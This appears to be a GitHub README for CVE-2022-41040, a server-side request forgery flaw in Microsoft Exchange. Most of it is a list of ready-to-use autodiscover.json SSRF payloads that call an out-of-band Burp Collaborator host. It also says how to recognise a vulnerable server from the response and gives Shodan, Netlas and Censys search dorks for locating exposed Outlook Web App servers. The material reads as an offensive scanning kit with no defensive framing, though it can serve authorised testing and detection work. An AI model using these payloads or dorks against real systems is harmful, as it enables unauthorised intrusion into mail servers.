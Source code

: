 # CVE-2022-41040
# Microsoft Exchange vulnerable to server-side request forgery
__Payload__ : 
- /autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL
- /autodiscover/autodiscover.json?@%d.v1.COLLABHERE/&Email=autodiscover/autodiscover.json%3f@%d.v1.COLLABHERE
- /autodiscover/autodiscover.json/v1.0/aa@%d.v2.COLLABHERE?Protocol=Autodiscoverv1
- /autodiscover/autodiscover.json/v1.0/aa..@%d.v3.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..@%d.v3.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
- /autodiscover/autodiscover.json/v1.0/aa@%d.v4.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v4.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell
- /autodiscover/autodiscover.json?aa..%d.v5.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a..%d.v5.COLLABHERE&Protocol=Autodiscoverv1&%d.v5.COLLABHEREProtocol=Powershell
- /autodiscover/autodiscover.json?aa@%d.v6.COLLABHERE/owa/?&Email=autodiscover/autodiscover.json?a@%d.v6.COLLABHERE&Protocol=Autodiscoverv1&%d.v6.COLLABHEREProtocol=Powershell
- /autodiscover/autodiscover.json?aa..%d.v7.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a..%d.v7.COLLABHERE&Protocol=Autodiscoverv1&%d.v7.COLLABHEREProtocol=Powershell
- /autodiscover/autodiscover.json?aa@%d.v8.COLLABHERE/owa/?&Email=aa@autodiscover/autodiscover.json?a@%d.v8.COLLABHERE&Protocol=Autodiscoverv1&%d.v8.COLLABHEREProtocol=Powershell
- /autodiscover/autodiscover.json/v1.0/aa@autodiscover/autodiscover.json?a..@%d.v9.COLLABHERE&Protocol=Autodiscoverv1&Protocol=Powershell

__Replace **COLLABHERE** with Burp Collaborator__

__if it vulnurable status must be 404 and in response must have IIS Web Core__

# List dork
- http.favicon.hash:1768726119 (Shodan)
- http.component:"outlook web app" (Shodan)
- http.component:"outlook web app" ssl:"hybrid" (Shodan)
- tag.name:"microsoft_exchange" prot7:http http.status_code:200 (Netlas.io)
- same_service(http://services.http.response.favicons.name: */owa/auth/* and services.http.response.html_title={"Outlook Web App", "Outlook"}) (Censys)
